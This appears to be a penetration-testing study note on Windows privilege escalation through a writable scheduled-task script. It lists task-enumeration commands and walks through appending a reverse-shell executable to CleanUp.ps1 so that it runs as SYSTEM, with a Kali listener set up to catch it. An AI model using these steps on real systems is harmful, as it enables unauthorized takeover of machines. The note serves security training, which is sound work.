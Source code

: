 Unfortunately, there is no easy method for enumerating custom tasks that belong to other users as a low privileged user account.

List all scheduled tasks your user can see:

```batch - windows
schtasks /query /fo LIST /v
```

In PowerShell:

PS>
```batch - windows
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Often we have to rely on other clues, such as finding a script or log file that indicates a scheduled task is being run.

1. In the C:\DevTools directory, there is a PowerShell script called “CleanUp.ps1”. View the script:

```batch - windows
type C:\DevTools\CleanUp.ps1
```

2. This script seems like it is running every minute as the SYSTEM user. We can check our privileges on this script using accesschk.exe:

```batch - windows
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

It appears we have the ability to write to this file.

3. Backup the script:

```batch - windows
copy C:\DevTools\CleanUp.ps1 C:\Temp\
```

4. Start a listener on Kali.

[[1._rlwrap]]

5. Use echo to append a call to our reverse shell executable to the end of the script:

[[1._Reverse Shells (WIN)#MSFVenom]]

```batch - windows
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

6. Wait for the scheduled task to run (it should run every minute) to complete the exploit.
